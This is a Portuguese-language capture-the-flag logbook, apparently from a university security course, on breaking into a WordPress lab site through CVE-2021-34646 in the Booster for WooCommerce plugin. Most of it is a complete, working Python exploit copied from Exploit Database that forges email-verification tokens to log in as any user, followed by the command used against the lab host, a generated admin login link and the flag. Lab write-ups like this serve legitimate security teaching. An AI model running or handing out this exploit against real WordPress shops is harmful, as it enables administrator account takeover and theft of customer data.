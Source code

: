 # LOGBOOK3 - Wordpress CVE

### Reconhecimento - Informações encontradas após utilizar o website
- **Versão do WordPress** - 5.8.1
  <br>
- **Plugins instalados e versões dos mesmos**:
    - WooCommerce plugin - 5.7.1
    - Booster for WooCommerce plugin - 5.4.3
      <br>
- **Possíveis utilizadores e nomes de utilizadores**:
    - admin
    - Orval Sanford

### Pesquisa por vulnerabilidades - Utilização de uma base de dados para descobrir a CVE
Utilizamos o website [Exploit Database](https://www.exploit-db.com) para descobrir com que vulnerabilidade estávamos a lidar e descobrimos que era a **CVE-2021-34646**.

Assim foi possível encontrar um script de python que era capaz de dar exploit a esta vulnerabilidade:
>1:
>Goto: https://target.com/wp-json/wp/v2/users/
>Pick a user-ID (e.g. 1 - usualy is the admin)
>
>2:
Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
>
>3:
>Check-Out  out which of the generated links allows you to access the system
>
>import requests,sys,hashlib
> 
>import argparse
> 
>import datetime
> 
>import email.utils
> 
>import calendar
> 
>import base64
>
>B = "\033[94m"
> 
>W = "\033[97m"
> 
>R = "\033[91m"
> 
>RST = "\033[0;0m"
>
>parser = argparse.ArgumentParser()
> 
>parser.add_argument("url", help="the base url")
> 
>parser.add_argument('id', type=int, help='the user id', default=1)
> 
>args = parser.parse_args()
> 
>id = str(args.id)
> 
>url = args.url
> 
>if args.url[-1] != "/": # URL needs trailing /
> 
>url = url + "/"
>
>verify_url= url + "?wcj_user_id=" + id
> 
>r = requests.get(verify_url)
>
>if r.status_code != 200:
> 
>print("status code != 200")
> 
>print(r.headers)
> 
>sys.exit(-1)
>
>def email_time_to_timestamp(s):
> 
>tt = email.utils.parsedate_tz(s)
> 
>if tt is None: return None
> 
>return calendar.timegm(tt) - tt[9]
>
>date = r.headers["Date"]
> 
>unix = email_time_to_timestamp(date)
>
>def printBanner():
> 
>print(f"{W}Timestamp: {B}" + date)
> 
> 
>print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
> 
>print("We need to generate multiple timestamps in order to avoid delay related timing errors")
> 
>print("One of the following links will log you in...\n")
>
>printBanner()
> 
>for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
>
>hash = hashlib.md5(str(unix-i).encode()).hexdigest()
>
>print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
>
>token='{"id":"'+ id +'","code":"'+hash+'"}'
>
>token = base64.b64encode(token.encode()).decode()
>
>token = token.rstrip("=") # remove trailing =
>
>link = url+"my-account/?wcj_verify_email="+token
>
>print(link + f"\n{RST}")

De forma a conseguirmos utilizar este script temos de o correr utilizando este comando "./exploit_CVE-2021-34646.py https://target.com/ 1" que neste caso seria "./50299.py http://ctf-fsi.fe.up.pt:5001 1", sendo o segundo elemento o link para o website e o terceiro elemento o id do utilizador ao qual conta queremos aceder (admin id = 1).
Com isto é gerado três links que nos permitem aceder a certas contas. Utilizando o link "http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWEwYzQ3MzcwZGY5ODBhNDU5NTYwYWIzYTUxNTI0NGYifQ", somos redirecionados para o mesmo website mas desta vez estando dentro da conta de um admin. Ai conseguimos aceder a uma mensagem privada aonde é mencionada a flag:

**flag{please don't bother me}**